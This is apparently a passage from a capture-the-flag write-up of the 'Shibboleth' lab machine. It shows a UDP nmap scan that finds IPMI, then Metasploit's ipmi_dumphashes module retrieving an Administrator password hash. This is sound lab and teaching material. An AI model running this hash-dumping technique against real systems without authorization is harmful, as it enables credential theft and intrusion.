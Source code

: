 Opening it in our browser we see the login page but don't seem to be able to bypass it.

[![010_zabbix_home](/img/shibboleth/010_zabbix_home.png)](/img/shibboleth/010_zabbix_home.png)

Running another nmap scan against the target, this time against the most common UDP ports reveals that the IPMI port is open.

```
$ sudo nmap -sU -T4 -n 10.129.255.116
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 21:48 UTC
Nmap scan report for 10.129.255.116
Host is up (0.033s latency).
Not shown: 959 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 1087.26 seconds
```

This protocol allows by design to bruteforce users with a dictionary. Upon a valid username the hashes of a user will be sent. One quick way to abuse this is using metasploit's `scanner/ipmi/ipmi_dumphashes` where we only have to set the rhosts option and run the module.

```
msf6 > use scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts shibboleth.htb
rhosts => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.255.116:623 - IPMI - Hash found: Administrator:8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4f92c3021cf3ecdc1c7debb1ef9695a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9c8093e2a8fcac1945bb8abe08e984ce6e73d7db
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
